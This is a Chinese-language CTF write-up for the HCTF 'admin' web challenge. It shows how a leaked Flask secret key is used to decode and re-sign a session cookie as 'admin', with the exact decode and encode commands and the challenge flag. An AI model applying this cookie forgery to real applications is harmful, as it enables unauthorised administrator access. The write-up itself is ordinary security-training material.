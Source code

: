 ```yaml
---
Author: SuperJason
Date: 2021-01-18
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 访问环境，源码提示需要管理员权限。注册admin提示账户已注册，随意注册一个test账户，在修改密码界面的源码提示了github仓库https://github.com/woadsl1234/hctf_flask/   
   ![](./images/hctf-admin-1.png)
2. 源码发现利用了flask框架，加密key为ckj123，利用cookie伪造admin会话。代码和解析后的内容如下。  
```python flask_session_cookie_hack.py decode -c {session}```
```b'{"_fresh":true,"_id":{" b":"ZDA5ZDkwMjhhNWFiNTgyMGY3YmM0MzBlMDA3YWU4NTU5Nzg5YjM1OGQ0NzRhOWRmNzJlNTJlMjViMzdiZDFhMTU3Y2Q3M2NkZGQ2YWZhZTBlYmJhNzBkMDJlMjdmOTFmZjEzNTQ3YzAxZWRjNjE3ZjVlYzFmYmNmNzU1OWRmN2Y="},"csrf_token":{" b":"MDk4N2FlYWNjYTViYTkzYmZhOWNkMTMzNjVjNGZmNDZjNjA3MWNmZg=="},"image":{" b":"MlVBWA=="},"name":"test","user_id":"10"}'```
   ![](./images/hctf-admin-2.png)
3. 改为admin后加密，这里通过decode得到的json数据需要适当修改一下，实际载荷如下。  
``` python .\N1BOOK\scripts\flask_session_cookie_hack.py encode -t "{'_fresh': True, '_id': b'ca73d01f58fe172c279fdb1026ba1202390ee0e60b049380c8785511afd9560104b61fa487c4bcb293fc463ef1548d3cad028ce1b5ff4922ab5246e4105a0a33', 'csrf_token': b'bcb966803bad1e8b020d5b7cf5e843fb157ef072', 'image': b'Av32', 'name': 'admin', 'user_id': '10'}" -s ckj123```
   ![](images/hctf-admin-3.png)
4. 修改cookie后，获得flag
   ![](images/hctf-admin-4.png)

## 总结
- 源码分析
- flask会话伪造
